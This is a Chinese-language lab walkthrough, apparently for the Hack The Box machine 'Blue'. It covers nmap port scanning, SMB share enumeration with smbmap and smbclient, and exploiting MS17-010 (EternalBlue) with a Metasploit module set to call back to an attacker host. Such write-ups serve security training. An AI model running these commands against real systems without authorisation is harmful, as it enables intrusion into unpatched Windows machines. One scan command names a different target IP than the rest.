




# 信息收集

## Namp

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.40 -oA scans/ports
...
PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown
...
root@kali# nmap -sT -sC -sV -O -p135,139,445 10.10.10.11 -oA scans/details
...
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m06s, deviation: 34m38s, median: 2m53s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-04T02:04:49+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-04T01:04:52
|_  start_date: 2021-05-04T00:54:47
...
```

根据开放端口的信息，我们可以确定目标系统是**win7**，并且突破点在smb服务上面。



**win7有个非常出名的漏洞叫“永恒之蓝”，再联想到该靶机的名字“blue”，猜测可能需要利用永恒之蓝漏洞。不过我们先按照流程探索一下smb服务。**

# 漏洞利用

## SMB

发现 SMB 可用时，首先要执行的操作之一是枚举 SMB 共享。`smbmap`

```
root@kali# smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40                                       
root@kali# smbmap -H 10.10.10.40 -u guest
[+] Guest session       IP: 10.10.10.40:445     Name: 10.10.10.40                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

Share为空：

```
root@kali#  smbclient //10.10.10.40/share
Enter WORKGROUP\oxdf's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 09:48:44 2017
  ..                                  D        0  Fri Jul 14 09:48:44 2017

                8362495 blocks of size 4096. 4259398 blocks available
```

Users只有空和文件夹：DefaultPublic

```
root@kali#  smbclient //10.10.10.40/users
Enter WORKGROUP\oxdf's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                8362495 blocks of size 4096. 4259398 blocks available
smb: \> ls default
  Default                           DHR        0  Tue Jul 14 03:07:31 2009

                8362495 blocks of size 4096. 4259398 blocks available
smb: \> ls public
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                8362495 blocks of size 4096. 4259398 blocks available
```

## MS17-010 利用

使用msf自带的exp来利用永恒之蓝：

```
msfconsole

msf6 > search ms17-010
```



```
msf6 > use 0      //选择对应模块编号
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40 //设置目标ip
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.6  //攻击机ip
LHOST => 10.10.14.6
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```



等待片刻，msf即可成功利用漏洞。

